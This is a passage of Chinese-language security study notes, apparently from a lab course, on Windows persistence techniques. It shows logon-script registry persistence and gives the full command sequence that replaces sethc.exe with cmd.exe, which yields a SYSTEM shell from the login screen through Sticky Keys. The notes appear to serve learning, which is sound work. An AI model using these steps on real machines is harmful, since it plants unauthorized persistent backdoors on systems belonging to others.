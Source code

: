 重新登录触发

## Logon scripts

同样是改注册表，位置在：
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/9ce41ee1fc282b8dcacd757b23417b12.png)

重新登录触发


## Backdooring the Login Screen / RDP

这个方法比较骚，第一次见。。

### Sticky Keys

原理是替换粘滞键执行的程序，来达到持久性

如果连续按5次shift键，windows会调用,这里应该是以system权限调用的
```
C:\Windows\System32\sethc.exe
```

假如把sethc.exe替换成cmd.exe，那就可以得到一个system的shell

甚至在登录界面也可以触发

步骤
```
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```
